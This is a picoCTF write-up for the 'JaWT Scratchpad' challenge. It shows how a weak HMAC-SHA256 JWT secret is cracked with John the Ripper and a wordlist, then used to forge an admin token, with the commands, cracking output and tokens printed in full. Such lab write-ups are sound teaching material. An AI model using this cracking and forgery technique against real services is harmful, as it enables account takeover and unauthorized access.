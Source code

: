 # JaWT Scratchpad

Start the challenge, we can login with any username, other than admin. When I try to log in as `admin`, I got:

YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.

To slove this challenge, may be I colde be the admin. Login as `test`, I got a scratchpad to write any things.

Reload this page and notice the request in the Burp suite, you will see a specail cookie:

`jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA`

This cookie means that this challenge verifies its user by JWT web token. Therefore, to become the admin, I need to find the secret key of this JWT token.

With [jwt.io](https://jwt.io/) I find the `VERIFY SIGNATURE` of this token in mode `HMACSHA256`. Using `John`, I found the secret key is `ilovepico`

```
$ cat jwt_picoCTF.txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA

$ john jwt_picoCTF.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2022-01-23 19:03) 0.2724g/s 2015Kp/s 2015Kc/s 2015KC/s ilovepinky53..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Add the secret key to `VERIFY SIGNATURE` in [jwt.io](https://jwt.io/) and change `"user": "test"` to `"user": "admin"`, we got the new JWT token:

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.jQ4HVprBiAgctoCSd2vl5kntoB35ftKQf8aTchKr2rY`

Repalce the current JWT token by the new, we will get the flag!
